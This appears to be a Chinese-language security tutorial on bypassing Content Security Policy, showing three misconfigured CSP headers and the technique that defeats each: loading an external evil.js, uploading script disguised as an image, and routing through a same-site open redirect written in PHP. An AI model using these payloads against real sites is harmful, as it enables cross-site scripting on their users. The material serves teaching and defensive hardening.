 CSP对前端攻击的防御主要有两个：
1、限制js的执行。
2、限制对不可信域的请求。

接下来的多种Bypass手段也是围绕这两种的。

## 1

```
header("Content-Security-Policy: default-src 'self '; script-src * ");
```

天才才能写出来的CSP规则，可以加载任何域的js
```
<script src="http://lorexxar.cn/evil.js"></script>
```

随意开火

## 2

```
header("Content-Security-Policy: default-src 'self'; script-src 'self' ");
```

最普通最常见的CSP规则，只允许加载当前域的js。

站内总会有上传图片的地方，如果我们上传一个内容为js的图片，图片就在网站的当前域下了。

```test.jpg
alert(1);//
```

直接加载图片就可以了
```
<script src='upload/test.js'></script>
```

## 3
```
header(" Content-Security-Policy: default-src 'self '; script-src http://127.0.0.1/static/ ");
```

当你发现设置self并不安全的时候，可能会选择把静态文件的可信域限制到目录，看上去好像没什么问题了。

但是如果可信域内存在一个可控的重定向文件，那么CSP的目录限制就可以被绕过。

假设static目录下存在一个302文件
```
Static/302.php

<?php Header("location: ".$_GET['url'])?>
```

像刚才一样，上传一个test.jpg
然后通过302.php跳转到upload目录加载js就可以成功执行

```
<script src="static/302.php?url=upload/test.jpg">
```


  [1]: http://static.zybuluo.com/LoRexxar/xht98xm2jwyjckb5bfdjm5xq/image.png
  [2]: http://static.zybuluo.com/LoRexxar/xo1yr98en6xbcsxhdi3598mz/image.png
  [3]: http://static.zybuluo.com/LoRexxar/qeh93twveyzmu5ke9nvkftj6/image.png
  [4]: http://static.zybuluo.com/LoRexxar/dqprvm9xhl2e0zl1w4ssjjai/image.png
  [5]: http://static.zybuluo.com/LoRexxar/2btf59qi5yvbhrgo80zda064/image.png